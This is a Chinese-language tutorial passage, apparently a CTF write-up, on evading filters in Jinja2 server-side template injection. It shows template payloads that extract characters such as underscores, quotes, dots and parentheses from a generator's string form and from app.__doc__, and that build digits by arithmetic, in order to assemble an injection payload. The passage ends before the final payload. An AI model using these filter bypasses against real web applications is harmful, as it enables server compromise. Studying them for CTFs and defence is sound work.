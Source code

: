 可以看到题目过滤的死死地，最关键是把attr也给过滤了的话，这就很麻烦了，但是我们还可以用过滤器进行绕过。

在存在ssti的地方执行如下payload：

```python
{% set org = ({ }|select()|string()) %}{{org}}
# 或 {% set org = ({ }|select|string) %}{{org}}
```

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364583187-d00a384c-66c9-4647-86e9-ca9c74f7adb0.png#averageHue=%239aa79c&id=nldt4&originHeight=226&originWidth=1158&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

可以看到，我们得到了一段字符串：`<generator object select_or_reject at 0x7f06771f4150>`，这段字符串中不仅存在字符，还存在空格、下划线，尖号和数字。也就是说，如果题目过滤了这些字符的话，我们便可以在 `<generator object select_or_reject at 0x7f06771f4150>` 这个字符串中取到我们想要的字符，从而绕过过滤。

然后我们在使用list()过滤器将字符串转化为列表：

```python
{% set orglst = ({ }|select|string|list) %}{{orglst}}
```

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364583302-de1236da-081b-4179-a7e0-97eca219e9e0.png#averageHue=%23c1b790&id=X1qmo&originHeight=322&originWidth=2460&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

如上图所示，反回了一个列表，列表中是 <generator object select_or_reject at 0x7f06771f4150> 这个字符串的每一个字符。接下来我们便可以使用使用pop()等方法将列表里的字符取出来了。如下所示，我们取一个下划线 _：

```python
{% set xhx = (({ }|select|string|list).pop(24)|string) %}{{xhx}}    # _
```

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364583429-17e661a0-3c3b-470d-8d7e-bc522837601c.png#averageHue=%239fa396&id=QgQbk&originHeight=277&originWidth=1464&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

同理还能取到更多的字符：

```python
{% set space = (({ }|select|string|list).pop(10)|string) %}{{spa}}    # 空格
{% set xhx = (({ }|select|string|list).pop(24)|string) %}{{xhx}}    # _
{% set zero = (({ }|select|string|list).pop(38)|int) %}{{zero}}    # 0
{% set seven = (({ }|select|string|list).pop(40)|int) %}{{seven}}    # 7
```

这里，其实有了数字0之后，我们便可以依次将其余的数字全部构造出来，原理就是加减乘除、平方等数学运算，如下示例：

```python
{% set zero = (({ }|select|string|list).pop(38)|int) %}    # 0
{% set one = (zero**zero)|int %}{{one}}    # 1
{% set two = (zero-one-one)|abs %}    # 2
{% set three = (zero-one-one-one)|abs %}    # 3
{% set five = (two*two*two)-one-one-one %}    # 5
#  {%set four = (one+three) %}    注意, 这样的加号的是不行的,不知道为什么,只能用减号配合abs取绝对值了
```

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364583525-0d4902e6-d970-42a6-a56b-acc3348adf76.png#averageHue=%238fa392&id=fEHW2&originHeight=168&originWidth=1804&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

通过上述原理，我们可以依次获得构造payload所需的特殊字符与字符串：

```python
# 首先构造出所需的数字:
{% set zero = (({ }|select|string|list).pop(38)|int) %}    # 0
{% set one = (zero**zero)|int %}    # 1
{% set two = (zero-one-one)|abs %}    # 2
{% set four = (two*two)|int %}    # 4
{% set five = (two*two*two)-one-one-one %}    # 5
{% set seven = (zero-one-one-five)|abs %}    # 7

# 构造出所需的各种字符与字符串:
{% set xhx = (({ }|select|string|list).pop(24)|string) %}    # _
{% set space = (({ }|select|string|list).pop(10)|string) %}    # 空格
{% set point = ((app.__doc__|string|list).pop(26)|string) %}    # .
{% set yin = ((app.__doc__|string|list).pop(195)|string) %}    # 单引号 '
{% set left = ((app.__doc__|string|list).pop(189)|string) %}    # 左括号 (
```